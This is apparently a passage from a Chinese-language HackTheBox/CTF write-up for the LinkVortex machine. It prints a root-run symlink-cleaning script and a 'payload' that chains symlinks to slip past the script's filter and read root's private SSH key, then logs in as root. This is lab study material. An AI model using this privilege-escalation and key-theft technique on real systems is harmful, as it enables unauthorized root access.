 massage
```bash
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
bob@linkvortex:~$ ll /opt/ghost/clean_symlink.sh
-rwxr--r-- 1 root root 745 Nov  1 08:46 /opt/ghost/clean_symlink.sh*

```

脚本
```bash
bob@linkvortex:~$ cat /opt/ghost/clean_symlink.sh
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```
payload
```bash
ln -s /root/.ssh/id_rsa 123
ln -s /home/bob/123 123.png
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh 123.png

ssh -i root_idrsa root@linkvortex.htb
```
## 6.99、内核提权

